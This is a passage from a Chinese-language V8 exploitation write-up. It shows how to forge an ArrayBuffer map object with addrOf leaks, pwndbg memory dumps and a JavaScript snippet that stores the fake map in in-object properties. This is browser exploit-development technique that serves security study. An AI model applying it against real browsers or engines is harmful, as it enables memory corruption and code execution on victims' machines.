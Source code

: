 我们需要关注map对象的两个字段，`prototype`和`constructor`，其中`prototype`的地址可以通过`addrOf(ab.__proto__)`来获取，而`constructor`的地址和`prototype`的偏移是固定的(这里是0x1A0)，因此可以算出constructor的地址。随便打印一个实际ArrayBuffer的map对象：

```
0x55fbd984371: [Map]
 - type: JS_ARRAY_BUFFER_TYPE
 - instance size: 64
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x0a8b573825a1 &lt;undefined&gt;
 - prototype_validity cell: 0x3291ad202201 &lt;Cell value= 1&gt;
 - instance descriptors (own) #0: 0x0a8b57382321 &lt;DescriptorArray[2]&gt;
 - layout descriptor: (nil)
 - prototype: 0x3fb82f110fd1 &lt;Object map = 0x55fbd9843c1&gt;
 - constructor: 0x3fb82f110e31 &lt;JSFunction ArrayBuffer (sfi = 0x3291ad216e41)&gt;
 - dependent code: 0x0a8b57382391 &lt;Other heap object (WEAK_FIXED_ARRAY_TYPE)&gt;
 - construction counter: 0

pwndbg&gt; x/20xg 0x55fbd984370
0x55fbd984370:  0x00000a8b57382251      0x1900042313080808
0x55fbd984380:  0x00000000082003ff      0x00003fb82f110fd1
0x55fbd984390:  0x00003fb82f110e31      0x0000000000000000
0x55fbd9843a0:  0x00000a8b57382321      0x0000000000000000
0x55fbd9843b0:  0x00000a8b57382391      0x00003291ad202201
pwndbg&gt; p `{`double`}` 0x55fbd984378
$1 = 2.8757499612354866e-188
pwndbg&gt; p `{`double`}` 0x55fbd984380
$2 = 6.7349004654127717e-316
pwndbg&gt;
```

需要注意的是伪造的map对象在后面的操作过程中由于触发GC，会被移动到`old space`中，若是采用前面提到的数组形式来存放数据，在移动之后JSArray对象的`elements`字段与该对象起始地址的偏移是不固定的，这使得我们的漏洞利用具有不稳定性，所以用什么方法可以让对象起始地址和数据之间的偏移固定呢？可以利用对象的属性信息来存储我们的`fake map`数据，我们知道对象内属性是直接存放在对象内部的，其相对于对象起始地址偏移固定为0x18。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a189db319bb436d5.png)

所以最后存放`fake map`可以用这种形式：

```
// fake arraybuffer map
    let fake_ab_map = `{`x1:-1.1263976280432204e+129,x2:2.8757499612354866e-188,x3:6.7349004654127717e-316,x4:-1.1263976280432204e+129,x5:-1.1263976280432204e+129,x6:0.0`}`;
    fake_ab_map.x4 = mem.u2d(ab_proto_addr);
    fake_ab_map.x5 = mem.u2d(ab_construct_addr);
```

### <a class="reference-link" name="%E4%BC%AA%E9%80%A0ArrayBuffer"></a>伪造ArrayBuffer

